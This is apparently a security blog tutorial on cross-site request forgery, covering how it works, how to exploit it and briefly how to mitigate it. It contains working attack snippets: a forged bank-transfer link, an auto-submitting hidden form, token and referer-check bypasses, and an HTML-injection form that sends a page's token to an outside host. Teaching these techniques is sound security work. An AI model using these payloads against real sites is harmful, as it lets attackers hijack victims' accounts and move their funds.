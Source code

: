 ```yaml
---
layout: post
title:  "CSRF Attacks - How to Find, Exploit and fix them"
author: snapsec
categories: [ cybersecurity,csrf,web-attacks ]
image: assets/images/csrf-101.png
---
```




### What is csrf

Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application. 

### CSRF flaw and its exploitation

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim’s behalf (though note that this is not true of login CSRF, a special form of the attack let me describe it ). For most sites, browser requests automatically include any credentials associated with the site, such as the user’s session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the victim and a legitimate request sent by the victim. CSRF attacks target functionality that causes a state change on the server, such as changing the victim’s email address or password, or purchasing something. 


### CSRF Attack Example:

Before executing an assault, a perpetrator typically studies an application in order to make a forged request appear as legitimate as possible. 
For example, a typical GET request for a $100 bank transfer might look like:
```
GET http://netbank.com/transfer.do?acct=PersonB&amount=$100 HTTP/1.1
```
An attacker can modify this script so it results in a $100 transfer to their own account. Now the malicious link look like:
```
GET http://netbank.com/transfer.do?acct=AttackerA&amount=$100 HTTP/1.1
```
A bad actor can embed the request into an innocent looking hyperlink:
```
<a href="http://netbank.com/transfer.do?acct=AttackerA&amount=$100">Read more!</a>
```
Next the attacker can distribute the hyperlink via email to a large number of bank customers. Those who click on the link while logged into their bank account will unintentionally initiate the $100 transfer.
 Note that if the bank’s website is only using POST requests, it’s impossible to frame malicious requests using a  href tag. However, the attack could be delivered in a form tag with automatic execution of the embedded JavaScript. 
 his is how such a form may look like:
 ```
  <body onload="document.forms[0].submit()">
   <form action="http://netbank.com/transfer.do" method="POST">
     <input type="hidden" name="acct" value="AttackerA"/>
     <input type="hidden" name="amount" value="$100"/>
     <input type="submit" value="View my pictures!"/>
   </form>
 </body>
 ```

##  Bypasses for CSRF attack:

#### Change the request method

Another thing worth trying is changing the request method of the request. If the sensitive request that you would like to forge is sent via the POST method, try converting the request to a GET request. And if the action is done via a GET, try converting it into a POST. The application might still execute the action and the same protection mechanism is often not in place.
For example, this request:
```
POST /change_password
POST body:
new_password=qwerty
```
Can be rewritten as:
```
GET /change_password?new_password=qwerty
```
#### CSRF Protection via Tokens

Just because a site is using CSRF tokens does not mean that it is validating them properly. Here are a few things that you can try to bypass CSRF protection via tokens.

#### Delete the token param or send a blank token

Not sending a token works fairly often because of this common application logic mistake: applications sometimes only check the validity of the token if the token exists, or if the token parameter is not blank. In this case, sending a request without the token, or a blank value as the token may be all you need to bypass the protection.
For example, if a legitimate request looks like this:

```http
POST /change_password
POST body:
new_password=qwerty &csrf_tok=871caef0757a4ac9691aceb9aad8b65b
```

Try this:

```http
POST /change_password
POST body:
new_password=qwerty
```

Or, this:

```http
POST /change_password
POST body:
new_password=qwerty &csrf_tok=
```


#### Use another session’s CSRF token

The application might only be checking if the token is _valid_ or not, and not checking if it _belongs to the current user_. If that’s the case, you can simply hard code your own CSRF token into the payload. Let’s say the victim’s token is _871caef0757a4ac9691aceb9aad8b65b_, and yours is YOUR_TOKEN. You can obtain your own CSRF token easily but not the victim’s token. Try to bypass the CSRF protection by providing your own token in the place of the legitimate token.
In other words, instead of sending this:

```http
POST /change_password
POST body:
new_password=qwerty &csrf_tok=871caef0757a4ac9691aceb9aad8b65b
```


Send this:
```
POST /change_password
POST body:
new_password=qwerty &csrf_tok=YOUR_TOKEN
```


## Referer Based CSRF Checks
Let’s say that _attacker.com_ is a domain that you own. And _bank.com_ is the site that you are attacking. The site is not using CSRF tokens but is checking the referer header instead. What can you do now?

- Sending a blank tokens is one of the first things that you should do, sometimes all you need to do to bypass a referer check is to simply not send a referer. To do this, you can add the following meta tag to the page hosting your payload:
```
<meta name=”referrer” content=”no-referrer”>
```
The application might only be validating the referer if one is sent, in that case, you’ve successfully bypassed its CSRF protection!




#### Bypass the regex
If the referer check is based on a whitelist, you can try bypassing the regex used to validate the URL. For example, you can try placing victim domain name in referer URL as a subdomain or as a directory:
If the site is looking for “_bank.com”_ in the referer URL, maybe “_bank.com.attacker.com”_ or “_attacker.com/bank.com”_ will work.


#### Extracting token via HTML injection

This technique utilizes HTML injection vulnerability using which an attacker can plant a logger to extract the CSRF token from that web page and use that token. An attacker can plant a link such as
```
<form action=”http://shahmeeramir.com/acquire_token.php”></textarea>
```
#### Decoding CSRF tokens:

Another method to bypass CSRF is to identify the algorithm of the CSRF token. In my experience CSRF tokens are either MD5 or Base64 encoded values. You can decode that value and encode the next one in that algorithm and use that token. For instance “a0a080f42e6f13b3a2df133f073095dd” is MD5(122). You can similarly encrypt the next value MD5(123) to for CSRF token bypass.


### Mitigation of CSRF attack

A number of effective methods exist for both prevention and mitigation of CSRF attacks. From a user’s perspective, prevention is a matter of safeguarding login credentials and denying unauthorised actors access to applications. The most robust way to defend against CSRF attacks is to include a CSRF token within relevant requests. The token should be:
-   Unpredictable with high entropy, as for session tokens in general.
-   Tied to the user's session.
-   Strictly validated in every case before the relevant action is executed.


## Conclusion:

CSRF is a vulnerability that allows attackers to circumvent the SOP (same origin policy) which leas to various unintended actions on victims account.

There are various bypasses to bypass the csrf protection implemented by the web applications as below:

- Sending only csrf token  header with empty token.

- Use csrf token generated in another session.

- Try submitting same length randomly generated csrf token to check if it validation is only based on token length.
